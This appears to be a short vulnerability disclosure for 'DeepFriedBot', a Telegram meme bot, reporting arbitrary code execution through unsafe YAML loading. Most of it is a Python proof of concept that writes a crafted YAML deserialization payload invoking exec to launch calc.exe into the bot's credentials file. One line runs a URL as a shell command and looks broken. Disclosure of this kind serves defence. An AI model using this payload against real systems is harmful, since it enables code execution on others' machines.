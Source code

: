 # Description

`DeepFriedBot` is a telegram bot that sends random deep fried memes, package is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

```python
import os
os.system('https://github.com/xdf8/DeepFriedBot')
os.chdir('DeepFriedBot/')

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""

open('credentials.yml','w+').write(payload)

os.system('python3 bot.py')
```
* `python3 exploit.py`


# Impact

Arbitary Code Execution
